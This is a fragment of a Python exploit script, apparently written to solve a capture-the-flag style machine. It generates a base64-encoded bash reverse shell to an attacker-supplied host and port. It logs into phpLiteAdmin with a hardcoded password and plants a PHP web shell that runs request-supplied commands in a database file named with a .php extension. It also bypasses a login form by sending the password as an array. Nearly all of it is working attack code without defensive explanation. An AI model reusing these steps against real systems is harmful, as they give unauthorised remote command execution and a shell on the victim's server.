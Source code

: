 ```python

## Function encode Base64
def encodeB64(strg):
    return base64.b64encode(strg.encode()).decode()

## Create the payload
def createPayload(lhost,lport):
    print(f"\n{BLUE}[+] PAYLOAD: {YELLOW}Creating the payload! {BLUE}[+]{END}")
    global payload
    payload = f"bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
    payload = str(encodeB64(payload))

    loading(8)
    print(f"{BLUE}[+] PAYLOAD: {YELLOW}Payload Created! {BLUE}[+]{END}")

## phpLiteAdmin vulnerability - Remote PHP Code Injection

# Session HTTP
r = requests.session()

## Let's create the phpLiteAdmin php file
def createEvilPHP(rhost):
    print(f"\n{BLUE}[+] EvilPHP: {YELLOW}Let's create the malicious PHP File! {BLUE}[+]{END}")

    # Loging as admin
    url = f"https://{rhost}:443/db/index.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"password": "password123", "remember": "yes", "login": "Log In", "proc_login": "true"}
    r.post(url, headers=headers, data=data, verify=False)
    
    # Create the new database
    data = {"new_dbname": "0xEtern4lW0lf.php"}
    r.post(url, headers=headers, data=data, verify=False)
    
    # Change the database
    url = f"https://{rhost}:443/db/index.php?switchdb=/var/tmp/0xEtern4lW0lf.php"
    r.get(url, headers=headers, cookies=r.cookies, verify=False)
    
    # Create table
    url = f"https://{rhost}:443/db/index.php?action=table_create"
    data = {"tablename": "shell", "tablefields": "1", "createtable": "Go"}
    r.post(url, headers=headers, data=data, verify=False)
    
    # Inject Malicious PHP
    url = f"https://{rhost}:443/db/index.php?action=table_create&confirm=1"
    data = {"tablename": "shell", "rows": "1", "0_field": "shell", "0_type": "TEXT", "0_defaultvalue": "<?php system($_REQUEST[\"cmd\"]); ?>"}
    r.post(url, headers=headers, data=data, verify=False)

    loading(8)
    print(f"{BLUE}[+] EvilPHP: {YELLOW}Evil PHP injected! {BLUE}[+]{END}")

# Let's login as admin on the app
def loginAdmin(rhost):
    print(f"\n{BLUE}[+] LOGIN: {YELLOW}Let's login as admin! {BLUE}[+]{END}")
    url = f"http://{rhost}:80/department/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password[]": "123"}
    r.post(url, headers=headers, data=data, verify=False)

    loading(8)
    print(f"{BLUE}[+] LOGIN: {YELLOW}Logged {GREEN}SUCCESSFULLY! {BLUE}[+]{END}")

```
